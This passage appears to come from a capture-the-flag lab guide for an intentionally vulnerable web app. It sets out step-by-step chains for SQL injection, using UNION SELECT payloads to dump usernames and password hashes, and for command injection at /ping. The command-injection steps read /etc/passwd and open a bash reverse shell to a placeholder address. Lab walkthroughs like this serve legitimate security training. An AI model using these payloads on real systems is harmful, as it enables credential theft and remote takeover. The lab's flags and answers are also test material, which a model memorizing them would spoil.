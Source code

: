 ### 7.2. Data Exfiltration Chain
1. Access the search functionality
2. Test for SQL injection with `'`
3. Use `' UNION SELECT 1,2,3,4,5,6,7 FROM users--` to determine column count
4. Use `' UNION SELECT 1,2,id,username,password,email,7 FROM users--`
5. Extract and crack the MD5 hashes
6. Look for the flag: `DARK{sql_m4st3r}`

### 7.3. Server Compromise Chain
1. Login to application
2. Locate command injection at `/ping`
3. Enter `localhost; id` to confirm command execution
4. Use `; cat /etc/passwd` to gather system information
5. Use `; cat /opt/flag.txt` to read command injection flag
6. Create reverse shell: `; bash -c 'bash -i >& /dev/tcp/your-ip/your-port 0>&1'`
7. Look for the flag: `DARK{c0mm4nd_1nj3ct10n_pr0}`

## 8. Documentation and Reporting

1. Create a list of all vulnerabilities found
2. Document each vulnerability with:
   - Description
   - Steps to reproduce
   - Impact
   - Proof (screenshots, captured flags, etc.)
3. Collect all flags in the format `DARK{unique_identifier}`
4. Complete the vulnerability checklist from `/docs/vulnerability_checklist.md`

## Note

This guide should be used only in controlled environments for educational purposes. Do not use these techniques against systems without proper authorization. 